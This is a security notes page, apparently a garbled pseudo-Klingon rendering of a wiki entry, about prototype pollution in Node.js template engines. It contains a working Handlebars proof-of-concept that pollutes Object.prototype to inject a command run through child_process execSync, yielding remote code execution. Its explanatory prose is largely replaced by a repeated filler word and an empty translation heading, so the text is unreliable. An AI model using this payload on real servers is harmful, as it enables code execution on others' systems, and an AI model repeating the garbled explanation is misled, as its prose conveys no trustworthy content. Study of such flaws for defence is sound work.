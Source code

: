 {% embed url="https://infosecwriteups.com/javascript-prototype-pollution-practice-of-finding-and-exploitation-f97284333b2" %}

### AST Prototype Pollution in NodeJS

NodeJS JavaScript vItlhutlh, template engines, TypeScript vItlhutlh, Abstract Syntax Trees (AST) vItlhutlh. Handlebars, Pug prototype vItlhutlh vulnerabilities vItlhutlh.

#### Handlebars Vulnerability Analysis

Handlebars template engine prototype vItlhutlh. `javascript-compiler.js` file vItlhutlh vItlhutlh vulnerabilities. `appendContent` function vItlhutlh `pendingContent` vItlhutlh, `pushSource` function vItlhutlh `pendingContent` vItlhutlh `undefined` vItlhutlh.

##### Exploitation Process

Handlebars vItlhutlh AST (Abstract Syntax Tree) vItlhutlh, vItlhutlh:

1. **Parser vItlhutlh**: `NumberLiteral` node vItlhutlh, values numeric vItlhutlh. Prototype vItlhutlh non-numeric strings vItlhutlh.
2. **Compiler vItlhutlh**: Compiler AST Object string template vItlhutlh. `input.type` `Program` vItlhutlh, pre-parsed vItlhutlh, vItlhutlh.
3. **Code Injection vItlhutlh**: `Object.prototype` vItlhutlh manipulation, arbitrary code template function injection vItlhutlh, remote code execution vItlhutlh.

Handlebars vulnerability exploitation example:
```javascript
const Handlebars = require('handlebars');

Object.prototype.type = 'Program';
Object.prototype.body = [{
"type": "MustacheStatement",
"path": 0,
"params": [{
"type": "NumberLiteral",
"value": "console.log(process.mainModule.require('child_process').execSync('id').toString())"
}],
"loc": {
"start": 0,
"end": 0
}
}];

const source = `Hello {{ msg }}`;
const template = Handlebars.precompile(source);

console.log(eval('(' + template + ')')['main'].toString());
```
**tlhIngan Hol Translation**:

**External Reference**: [Issue on GitHub](https://github.com/hughsk/flat/issues/105) jImej: 'flat' library vItlhutlhlaH prototype pollution vItlhutlhlaH.

**External Reference**: [Issue related to prototype pollution in the 'flat' library](https://github.com/hughsk/flat/issues/105)
